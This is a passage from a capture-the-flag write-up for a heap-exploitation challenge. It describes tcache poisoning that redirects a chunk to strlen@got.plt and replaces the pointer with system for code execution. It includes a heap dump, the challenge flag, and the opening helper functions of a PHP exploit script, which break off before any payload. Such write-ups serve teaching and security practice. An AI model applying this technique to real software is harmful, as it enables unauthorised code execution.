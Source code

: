 Allocate a 7th chunk of any size but `S` to overwrite the metadata of the tcache
list. Make it point to the vicinity of `strlen@got.plt`

```
0x0000000000000000 0x0000000000000031
0x3636363636363636 0x3636363636363636 [1] [6]
0x3636363636363636 0x3636363636363636

0x0036363636363636 0x0000000000000031
0x0000000000000000 0x0000000000000041 [7]
0x000067bd2c3c769d 0x347675821c19a300 [2]

0x3232323232323232 0x0000000000000021
0x000067bd51c19ce0 0x000067bd51c19ce0 [unsorted]

0x0000000000000020 0x0000000000000040
```

Allocate two chunks of size `S` (8th and 9th). The 9th will be located at the
location chosen earlier.

By replacing the pointer with `system`, it is possible to get code execution by
displaying the content of an episode.

**Flag**: `idek{n0w_us3_y0ur_m1nky_st1ck_t0_tr4nslate_ep1sodes_13-46_f0r_me}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
const LOCAL = false;
const HOST  = "minkymomo.chal.idek.team";
const PORT  = 1337;

const OFF_ENVP = 0x148;

function expect_check(string $left, string $right)
{
	if($left !== $right) {
		fprintf(STDERR, "Wanted: %s\n", $left);
		fprintf(STDERR, "Got:    %s\n", $right);
		throw new Exception("Unexpected data");
	}
}

function expect($fp, string $str)
{
	$data = fread($fp, strlen($str));
	expect_check($str, $data);
}

function expectLine($fp, string $line)
{
	$data = fgets($fp);
	expect_check("$line\n", $data);
}

function line($fp) : string
{
	$line = fgets($fp);

	if("\n" !== substr($line, -1))
		throw new Exception("fgets did not return a line");

```
